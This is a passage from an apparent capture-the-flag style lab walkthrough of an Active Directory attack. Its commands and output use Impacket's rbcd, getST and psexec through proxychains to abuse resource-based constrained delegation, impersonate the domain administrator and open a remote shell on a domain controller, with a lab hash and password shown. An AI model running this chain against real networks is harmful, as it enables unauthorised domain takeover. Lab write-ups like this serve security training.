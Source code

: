 had to do research to mess with the command to properly get it to work
```powershell
proxychains impacket-rbcd -action write -delegate-to 'dc02$' -delegate-from "DEFENSESYSTEM$" -dc-ip 172.16.2.6 -hashes :31d6cfe0d16ae931b73c59d7e0c089c0 'DEV.ADMIN.OFFSHORE.COM/joe:'
```
![[Pasted image 20240112164535.png]]
And finally we can get a service ticket for the service name (sname) we want to "pretend" to be "admin" for. Impacket's getST.py example script can be used for that purpose.
```bash
┌──(root💀gobots)-[12Jan2024 16:48:11]-[~/SUT/offshore]                                                                                                                                                     
└─# proxychains impacket-getST -spn 'cifs/dc02.dev.admin.offshore.com' -impersonate 'administrator' 'dev.admin.offshore.com/DEFENSESYSTEM$:bugserjumper1337!'                                               
[proxychains] config file found: /etc/proxychains4.conf                                                                                                                                                     
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4                                                                                                                                      
Impacket v0.11.0 - Copyright 2023 Fortra                                                                                                                                                                    
                                                                                                                                                                                                            
[-] CCache file is not found. Skipping...                                                                                                                                                                   
[*] Getting TGT for user                                                                                                                                                                                    
[*] Impersonating administrator                                                                                                                                                                             
[*]     Requesting S4U2self                                                                                                                                                                                 
[*]     Requesting S4U2Proxy                                                                                                                                                                                
[*] Saving ticket in administrator.ccache            
```
![[Pasted image 20240112172607.png]]
exporting the ticket to be utilized for `psexec`, the `TGT` is located in `/root/SUT/offshore`
```powershell
┌──(root💀gobots)-[12Jan2024 16:53:16]-[~/SUT/offshore]
└─# export KRB5CCNAME=administrator.ccache
```
`psexec'ing` 
```
┌──(root💀gobots)-[12Jan2024 16:55:04]-[~/SUT/offshore]
└─# proxychains impacket-psexec dev.admin.offshore.com/administrator@dc02.dev.admin.offshore.com -target-ip 172.16.2.6 -k -no-pass                           
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Requesting shares on 172.16.2.6.....
[*] Found writable share ADMIN$
[*] Uploading file kjivwPdj.exe
[*] Opening SVCManager on 172.16.2.6.....
[*] Creating service eYoN on 172.16.2.6.....
[*] Starting service eYoN.....
[!] Press help for extra shell commands
```